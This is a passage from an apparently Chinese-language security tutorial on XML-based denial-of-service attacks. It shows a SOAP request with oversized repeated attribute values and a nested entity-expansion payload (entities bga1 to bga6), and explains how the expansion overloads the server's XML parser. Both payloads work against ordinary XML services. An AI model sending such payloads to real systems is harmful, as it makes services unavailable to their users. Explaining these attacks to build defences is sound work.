 

```
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;TEST&gt;
&lt;BGA attribute1=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA” attribute2=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA” attribute3=”BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA”&gt;&lt;/BGA&gt;
&lt;/TEST&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

当XXE攻击奏效时，也可以引发服务拒绝漏洞。

攻击者可以使用如下载荷发起DDoS攻击。



```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE bga [
&lt;!ELEMENT ANY &gt;
&lt;!ENTITY bga1 "bga1"&gt;
&lt;!ENTITY bga2 "&amp;bga1;&amp;bga1;&amp;bga1;&amp;bga1;&amp;bga1;&amp;bga1;"&gt;
&lt;!ENTITY bga3 "&amp;bga2;&amp;bga2;&amp;bga2;&amp;bga2;&amp;bga2;&amp;bga2;"&gt;
&lt;!ENTITY bga4 "&amp;bga3;&amp;bga3;&amp;bga3;&amp;bga3;&amp;bga3;&amp;bga3;"&gt;
&lt;!ENTITY bga5 "&amp;bga4;&amp;bga4;&amp;bga4;&amp;bga4;&amp;bga4;&amp;bga4;"&gt;
&lt;!ENTITY bga6 "&amp;bga5;&amp;bga5;&amp;bga5;&amp;bga5;&amp;bga5;&amp;bga5;"&gt;
]&gt;
&lt;bga&gt;&amp;bga6;&lt;/bga&gt;
```

从载荷中可知，攻击者定义了一些XML实体，并在最后引用了bga6实体。bga6实体引用了6次bga5实体，同样，每个bga5实体也引用了6次bga4实体，以此类推。

当发往服务端的载荷中这类实体的数量和引用次数非常巨大时，服务端的XML解析器负载将大大提高，导致服务器在一段时间内无法响应客户端请求，最终达到拒绝服务攻击效果。
